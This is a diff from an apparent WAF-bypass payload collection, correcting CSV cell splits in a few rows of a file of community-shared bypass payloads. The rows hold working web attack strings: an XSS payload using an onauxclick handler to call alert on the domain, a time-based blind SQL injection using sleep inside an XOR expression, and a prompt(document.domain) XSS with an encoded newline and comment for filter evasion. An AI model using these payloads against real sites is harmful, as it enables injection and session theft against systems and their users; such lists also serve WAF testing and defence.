

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
fix

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
-B320: <x onauxclick=a=alert
+B320: <x onauxclick=a=alert,a(domain)>click -@niksthehacker
-C320: a(domain)>click -@niksthehacker
+C320: xss
-D320: xss
+D320: (empty)
-row 341: https://waf-bypass.com/ | ?XOR(if(now()=sysdate() | sleep(5*5) | 0))OR? | sqli
+row 341: https://waf-bypass.com/ | ?XOR(if(now()=sysdate(),sleep(5*5),0))OR? | sqli
-row 350: https://waf-bypass.com/ | test? | prompt%0A/*HelloWorld*/(document.domain) | xss
+row 350: https://waf-bypass.com/ | test?,prompt%0A/*HelloWorld*/(document.domain) | xss
```
